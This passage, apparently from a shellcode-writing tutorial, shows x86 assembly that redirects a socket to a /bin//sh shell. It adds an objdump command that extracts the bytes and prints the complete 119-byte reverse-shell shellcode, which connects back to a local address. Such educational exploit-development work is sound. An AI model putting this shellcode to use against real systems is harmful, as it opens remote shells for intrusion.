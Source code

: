 The rest of the code was simple:

```
 ;###copy file descriptors###
 ;dup2(sock, 0);
 ;dup2(sock, 1);
 ;dup2(sock, 2);
 
 mov eax, 0x3f ;dup2
 mov ebx, edi
 xor ecx, ecx

 int 0x80
 
 mov eax, 0x3f ;dup2
 mov ecx, 0x1
 
 int 0x80
 
 mov eax, 0x3f ;dup2
 mov ecx, 0x2
 
 int 0x80
 
 ;###execve###
 xor eax, eax
 mov al, 0x0b ;sys_execve
 xor ebx, ebx
 push ebx ;terminate string with \0
 push 0x68732f2f ;String "hs//"
 push 0x6e69622f;String "nib/"
 mov ebx, esp
 
 xor ecx, ecx
 xor edx, edx
 
 int 0x80
```

## Testing the shellcode

Extracting the opcodes:

```
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed   's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x00\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x68\x7f\x01\x01\x01\x66\x68\x22\xb8\x66\x6a\x02\x89\xe6\x31\xc0\xb8\x66\x00\x00\x00\x31\xdb\xbb\x03\x00\x00\x00\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb8\x3f\x00\x00\x00\xb9\x00\x00\x00\x00\x89\xfb\xcd\x80\xb8\x3f\x00\x00\x00\xb9\x01\x00\x00\x00\xcd\x80\xb8\x3f\x00\x00\x00\xb9\x02\x00\x00\x00\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```
So we got to a shellcode of 119 bytes! Great, but it is still large and has multiple **NULL bytes**. Can we do better?
